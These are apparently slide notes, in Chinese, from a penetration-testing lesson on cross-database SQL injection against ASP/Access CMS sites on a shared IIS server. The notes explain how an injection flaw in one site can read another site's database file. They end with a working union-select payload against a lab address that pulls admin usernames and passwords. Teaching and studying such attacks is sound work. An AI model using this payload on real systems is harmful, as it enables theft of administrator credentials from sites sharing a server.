

# 垮裤查询  一定是同一套cms 表名、列名一样的
垮裤查询 --前提有读取权限
	已经得到了数据库物理路径	C:\web\shop7z\data\#shop7z.asp
	iis7.5 但是即使你找到mdb的具体路径 也不允许你下载(很有可能会把mdb后缀改为.asp或者其他)
	情景:
		我们攻击的服务器上面有多个站点，但是我们获得了a站的数据库物理路径	C:\web\asp\xydata\xycms.mdb –别的站点的数据文件地址
		我可通过其他站点存在的注入漏洞进行跨库查询  -感觉像是旁站攻击
http://192.168.149.130:84/common.asp?id=16 union select 1,password,admin,4 from [C:\web\asp\xydata\xycms.mdb].admin_user